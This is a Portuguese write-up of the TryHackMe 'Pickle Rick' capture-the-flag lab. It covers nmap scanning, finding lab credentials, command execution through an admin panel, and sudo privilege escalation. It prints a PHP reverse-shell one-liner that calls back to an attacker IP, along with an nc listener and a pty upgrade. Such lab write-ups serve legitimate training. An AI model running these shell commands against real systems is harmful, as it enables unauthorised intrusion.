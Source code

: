 # Pickle Rick - TryHackMe CTF

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick-ctf.jpg)

- **Descrição:** Esse é um CTF tematizado que requer que você explore um webserver para encontrar 3 ingredientes/3 flags que ajudaram Rick a ser um humano novamente!
- **Categoria:** Exploração Web.
- **Nível:** Fácil.

## Passo 1: usar o nmap para saber as portas abertas

```python
 root@kali:~/pickle-rick-ctf# nmap -A -p- 10.10.46.162 -oN nmap.log 
```
- **Resultado:**

```python
 Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 13:58 UTC
Nmap scan report for ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)
Host is up (0.00070s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:4b:26:41:78:2f:ca:6e:c2:b5:38:b0:d5:0c:2b:34 (RSA)
|   256 6a:2c:68:6f:d4:ef:d4:6d:10:3c:16:54:c9:f1:36:ba (ECDSA)
|_  256 ff:14:2b:52:bb:b2:a6:cc:f7:44:d3:a2:ff:da:03:96 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E9:E0:DF:B2:F1 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.43 seconds 
```

## Passo 2: analisar o código fonte e enumerar

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick1-ctf.JPG)

- **Já conseguimos encontrar uma informação válida, um nome de usuário:** ``` R1ckRul3s ``` 

Podemos rodar o nmap mais uma vez, só que agora usando um script de enumeração:

```python
 root@kali:~/pickle-rick-ctf# nmap --script=http-enum 10.10.46.162
```

- **Resultado:**

```python
 Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 14:22 UTC
Nmap scan report for ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
MAC Address: 02:E9:E0:DF:B2:F1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

- Acessando o caminho ***/robots.txt*** encontramos -> ```Wubbalubbadubdub```
- Acessando o caminho ***/login.php*** temos uma tela de login que exige usuário e senha


## Passo 3: fazendo login como administrador e pegando shell

- Se tentarmos logar com o usuário ``` R1ckRul3s ``` e a senha ```Wubbalubbadubdub``` conseguiremos ir para página de administrador

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick2-ctf.JPG)

- ***Note que temos um input, podemos passar um comando para ver se ele retorna algo***

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick3-ctf.JPG)

Podemos ir no [REVSHELLS](https://www.revshells.com/) para pegarmos uma shell e usarmos:

> php -r '$sock=fsockopen("10.10.181.45",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

> nc -nlvp 4444 //para pegarmos a conexão na nossa máquina

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick4-ctf.JPG)

- 1 Recebos a shell e deixamos ela melhor com o comando ```python python3 -c "import pty;pty.spawn('/bin/bash')"```;
- 2 Pegamos a primeira flag/ingrediente e recebemos uma dica para procurar as outras flags/ingredientes;

## Passo 4: procurando as outras flags e escalando privilégios

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick5-ctf.JPG)

- Listamos a pasta do usuário rick e conseguimos a segunda flag

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick6-ctf.JPG)

- Tentamos listar a pasta ***/root*** porém não temos permissão;
- Executamos o comando sudo -l para verificar se o nosso user consegue usar algum comando com privilégios de usuário root atráves do sudo sem passar uma senha;
- Bingo! podemos executar TUDO como root usando sudo sem nenhuma senha.

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick7-ctf.JPG)

- Com isso conseguimos listar a pasta root e pegar a última flag!
- **OBS:** o endereço ip mudou durante o writeup pois foi necessário reiniciar a máquina do CTF.



